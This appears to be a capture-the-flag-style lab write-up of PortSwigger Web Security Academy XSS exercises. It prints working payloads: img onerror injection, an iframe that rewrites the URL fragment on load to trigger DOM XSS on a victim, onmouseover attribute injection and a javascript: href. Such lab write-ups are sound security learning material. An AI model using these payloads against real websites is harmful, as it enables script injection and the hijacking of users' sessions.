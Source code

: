 The script search for section tag with class blog'-list' and for `<h2>` titles. For finally it takes you to the header on the page.

After view all this, we can try to inject javascript code.

```html
#<img src=0 onerror=print(0)>
```

Okey, but you think that the lab is finish?. No because if you send this link to a victim. The webpage don't do nothing because the fragment not change.

In the exploit-server section we have a malicious page.

The idea is that victim go to the page and one time inside modify the fragment to inject javascript.

For this you can use iframe, this allow you to put a webpage inside another.

```html
<iframe src="https://0a2d00ff049ea020823a2e53008800a6.web-security-academy.net/#"></iframe>
```

If you send to a victim(simulate victim) you see that load a windows with the webpage.
Now we have to send the page and modify the fragment:

```html
<iframe src="https://0a2d00ff049ea020823a2e53008800a6.web-security-academy.net/#" onload="this.src += '<img src=0 onerror=print(0)>'"></iframe>
```

onload attribute load source(that is the url) and adding the new html code.

If you want that the iframe have the full screen of the browser you can use:
```html
<iframe src="https://0a2d00ff049ea020823a2e53008800a6.web-security-academy.net/#" onload="this.src += '<img src=0 onerror=print(0)>'" style="position:fixed;top:0;left:0;width:100vw;height:100vh;border:none;"></iframe>
```

Now, if you share you're malicious server with a victim can exploit sucessufuly the XSS.

# Reflected XSS into attribute with angle brackets HTML-encoded

In this case if we try to escape outside of the input function, wee that the characters "<" and ">" are html-encoded, to solve this we can add a attribute in the input tag.

```html
"onmouseover="alert(0)
```

# Stored XSS into anchor `href` attribute with double quotes HTML-encoded

In the website field you can use 

```html
javascript:alert(0)
```
